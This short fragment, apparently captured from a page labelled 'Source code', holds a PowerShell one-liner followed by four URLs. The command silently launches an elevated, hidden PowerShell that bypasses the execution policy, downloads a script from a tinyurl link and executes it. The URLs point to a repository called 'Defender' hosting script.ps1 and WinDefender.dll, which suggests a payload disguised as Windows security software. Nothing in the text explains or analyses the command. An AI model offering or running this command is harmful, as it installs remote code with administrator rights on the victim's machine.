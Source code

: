 ``powershell -Command "Start-Process powershell -ArgumentList '-ExecutionPolicy Bypass -Command iwr -Uri https://tinyurl.com/yvjzsyk3 -UseBasicParsing | iex' -Verb RunAs  -WindowStyle Hidden"``



``https://raw.githubusercontent.com/steamworker/Defender/refs/heads/main/script.ps1``

``https://tinyurl.com/yvjzsyk3``

``https://raw.githubusercontent.com/steamworker/Defender/refs/heads/main/WinDefender.dll``

``https://tinyurl.com/2s35eutk``
